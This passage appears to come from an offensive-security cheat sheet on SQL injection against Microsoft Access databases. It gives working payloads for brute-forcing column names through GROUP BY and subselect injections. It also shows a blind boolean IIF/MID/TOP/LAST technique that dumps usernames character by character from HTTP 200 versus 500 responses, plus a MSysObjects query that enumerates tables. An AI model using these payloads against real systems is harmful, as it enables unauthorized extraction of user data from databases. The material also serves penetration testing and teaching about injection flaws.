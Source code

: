 Or with a **group by**:

```sql
-1' GROUP BY column_name%00
```

Or you can brute-force column names of a **different table** with:

```sql
'=(SELECT TOP 1 column_name FROM valid_table_name)='

-1' AND (SELECT TOP 1 column_name FROM valid_table_name)%00
```

### Dumping data

We have already discussed the [**chaining equals technique**](ms-access-sql-injection.md#chaining-equals-+-substring) **to dump data from the current and other tables**. But there are other ways:

```sql
IIF((select mid(last(username),1,1) from (select top 10 username from users))='a',0,'ko')
```

In a nutshell, the query uses an “if-then” statement in order to trigger a “200 OK” in case of success or a “500 Internal Error” otherwise. Taking advantage of the TOP 10 operator, it is possible to select the first ten results. The subsequent usage of LAST allows to consider the 10th tuple only. On such value, using the MID operator, it is possible to perform a simple character comparison. Properly changing the index of MID and TOP, we can dump the content of the “username” field for all rows.

### Time Based

Check [https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676(v=technet.10)?redirectedfrom=MSDN](<https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676(v=technet.10)?redirectedfrom=MSDN>)

### Other Interesting functions

- `Mid('admin',1,1)` get substring from position 1 length 1 (initial position is 1)
- `LEN('1234')` get length of string
- `ASC('A')` get ascii value of char
- `CHR(65)` get string from ascii value
- `IIF(1=1,'a','b')` if then
- `COUNT(*)` Count number of items

## Enumerating tables

From [**here**](https://dataedo.com/kb/query/access/list-of-tables-in-the-database) you can see a query to get tables names:

```sql
select MSysObjects.name
from MSysObjects
where
   MSysObjects.type In (1,4,6)
   and MSysObjects.name not like '~*'
   and MSysObjects.name not like 'MSys*'
order by MSysObjects.name
```
